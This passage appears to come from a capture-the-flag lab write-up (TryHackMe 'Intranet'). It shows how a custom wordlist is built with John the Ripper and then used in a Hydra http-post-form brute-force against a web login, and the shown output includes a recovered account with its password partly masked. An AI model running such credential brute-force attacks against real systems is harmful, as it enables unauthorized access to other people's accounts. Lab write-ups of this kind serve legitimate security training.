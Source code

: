 



<br /><br />



**Generate the wordlist**

```bash
root@ip-10-10-237-59:~/Desktop# john -wordlist:words.txt -rules:intranet -stdout > wordlist.txt  
```

<br />

**Bruteforce with hydra**

```
root@ip-10-10-237-59:~/Desktop# hydra -I  -L users.txt -P custom-wordlist.txt 10.10.21.48 -s 8080 http-post-form "/login:username=^USER^&password=^PASS^:Error"

Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2024-07-03 12:55:34
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 78472 login tries (l:1/p:78472), ~4905 tries per task
[DATA] attacking http-post-form://10.10.21.48:8080//login:username=^USER^&password=^PASS^:Error
[8080][http-post-form] host: 10.10.21.48   login: anders@securesolacoders.no   password: se***************
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2024-07-03 12:55:37
```

<br />

![](/assets/img/thm/intranet/5.4.png)

<br />

**Or you can save the request from burp and bruteforce with ffuf**



![](/assets/img/thm/intranet/5.2.png)
